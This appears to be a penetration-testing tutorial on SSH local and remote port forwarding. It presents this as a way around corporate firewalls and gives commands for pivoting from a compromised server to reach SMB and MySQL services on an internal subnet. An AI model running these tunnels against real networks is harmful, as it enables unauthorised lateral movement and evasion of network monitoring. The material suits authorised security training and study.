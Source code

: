 SSH tunnels can be used to securely transfer files and also to offer a way around firewalls that block or filter specific internet services. For instance, a company might use its proxy filter to ban specific websites. However, users might not want the company proxy filter to track or obstruct their online activity. If users are able to establish a connection to an external SSH server, they can build an SSH tunnel to route a certain port on their local system to port 80 on a distant web server.

SSH tunnels can be created using port forwarding as explained below

**SSH Local port forwarding**

Syntax of local port forwarding

```
SSH -L local-port-to-listen:remote-host:remote-port
```

**Scenario 1**

The below scenario assumes that we have compromised an internal server and wants to establish connection to an internal machine that resides on a different subnet that can't be reached. This internal machine has port 445 open for SMB protocol and we want to interact with it from the attacking machine through the compromised server

This command is typed on the attacker machine

```
root@kali:~$sudo ssh -N -L 0.0.0.0:9001:192.168.1.110:445 compromised@10.11.0.128
```

`-L`: means local forwarding `10.11.0.128`: IP of the compromised server. `192.168.1.110`: IP of the internal machine running SMB shares

This command means that any connection regardless of the source address on port 9001 will be forwarded to 192.168.1.110 which is the IP of the internal target client and through an SSH tunnel established through the compromised internal server.

Next step is to connect to the target port, in our case its 9001, from your kali machine as a local connection.

```
root@kali:~$smbclient -L 127.0.0.1 -p 9001 -U Administrator
```

**SSH Remote Port Forwarding**

The exact opposite of SSH local port forwarding. SSH tunnel will get around the firewall.

**Scenario 1**

Configure a SSH tunnel directed to your kali machine to land on the internal client. The internal client runs mysql on port 3306 but resides on a different subnet than the compromised server. We want to access mysql on the internal client from our attacking machine through the compromised server.

You should have an SSH server running on your attacking machine as well so that the compromised server will connect to it and establish the tunnel.

On the compromised server type this command

```
root@kali:~$ssh -N -R 10.11.0.4:2221:client-ip:3306 kali@10.11.0.4
```
